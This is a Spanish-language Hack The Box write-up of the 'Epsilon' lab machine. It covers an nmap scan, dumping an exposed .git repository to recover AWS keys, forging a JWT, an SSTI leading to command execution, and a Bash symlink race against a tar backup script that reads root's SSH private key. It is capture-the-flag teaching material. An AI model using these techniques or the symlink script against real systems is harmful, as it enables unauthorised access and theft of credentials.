 ```yaml
---
layout: single
title: Epsilon - Hack The Box
excerpt: "Epsilon es una máquina de hackthebox de dificultad media, en lo cual contiene un .git expuesto en el servidor, en lo cual contempla el codigo fuente del servicio web y del aws. Luego, mediante las modificaciones que se han hecho, logramos extraer el  aws_access_key_id y aws_secret_access_key que nos sirve para conectarnos al aws lambda."
date: 2022-09-24
classes: wide
header:
  
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - git-dumper
  - aws enumeration
  - abusing jwt
  - ssti
  - tar symlink exploitation
---
```


## Enumeración
Lanzamos un escaneo de nmap.Y encontramos que hay un .git expuesto en la web que contiene el codigo fuente de la web, y algunos datos del aws.
```bash
nmap -sCV -p22,80,5000 10.10.11.134 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-23 10:33 -03
Nmap scan report for 10.10.11.134
Host is up (0.24s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.10.11.134:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Updating Tracking API  # Please enter the commit message for...
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
|_http-title: Costume Shop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.34 seconds
```

Sabiendo que hay un .git en el servidor web, con git-dumper sacamos su contenido. Luego mediante commit vemos los datos que necesitamos para conectarnos al aws.

![](/assets/images/htb-writeup-epsilon/aws_pass.png)

Como ya tenemos los datos necesarios para conectarnos al aws, hacemos un aws configure y agregamos los siguientes datos.

```bash
aws configure
AWS Access Key ID [****************6TDC]: AQLA5M37BDN6FJP76TDC 
AWS Secret Access Key [****************Fo1A]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A  
Default region name [us-east-1]: us-east-1
Default output format [json]: json
```

Ahora nos conectamos.

![](/assets/images/htb-writeup-epsilon/datos_aws.png)

Ahora procedemos a extraer el archivo de dicha funcion.

![](/assets/images/htb-writeup-epsilon/archivo.png)

Nos descargamos el archivo y vemos que es un .zip, entonces lo descomprimimos y obtenemos el secret para el token.

![](/assets/images/htb-writeup-epsilon/secret-key.png)

Ahora nos creamos un token para entrar como admin en la web.

![](/assets/images/htb-writeup-epsilon/json.png)

Una vez adentro nos dirigimos a http://10.10.11.134:5000/order, y vemos que se nos refleja glasses, entonces hacemos una prueba para ver si es vulnerable a ssti.Interceptamos la solicitud y cambiamos el campo costume.
![](/assets/images/htb-writeup-epsilon/testing-2.png)

Es vulnerable.

![](/assets/images/htb-writeup-epsilon/suma.png)

Ahora lo que procede es ver si podemos ejecutar comandos.Probamos una inyeccion ssti y funciona.

![](/assets/images/htb-writeup-epsilon/rce.png)

## Elevación de Privilegios

Una vez dentro del sistema procedemos a descargarnos la herramienta pspy que nos sirve para monitorizar procesos y extraemos la siguiente información.

![](/assets/images/htb-writeup-epsilon/pspy.png)

Si nos vamos a explainshell vemos que nos indica que esta haciendo tar.

![](/assets/images/htb-writeup-epsilon/tar-comandos.png)

Ahora imprimimos el archivo backup.sh

```bash
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/* # Borra todos los archivos de /opt/backups
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/ # Crea un archivo tar del contenido que hay en /var/www/app
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum #Crea /opt/backups/checksum que contiene el hash SHA1 del nuevo archivo.
sleep 5 # duerme 5 segundos
check_file=`date +%N` 
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar" #Crea un nuevo archivo tar que contenga el primer archivo y el archivo de suma
/usr/bin/rm -rf /opt/backups/* #Elimina todo lo que haya en /opt/backups/
```
Para aprovechar esto, usaré un bucle Bash para buscar el checksum  y lo reemplazaré con un enlace simbólico al id_rsa de root.

```bash
#!/bin/bash
file=/opt/backups/checksum
while :
do

if [ -e "$file" ]; then
    echo -e "[!]pwned\n"
    rm -rf $file
    ln -s -f /root/.ssh/id_rsa /opt/backups/checksum
    exit
fi
done
```


Conseguido :D.

![](/assets/images/htb-writeup-epsilon/id-rsa.png)
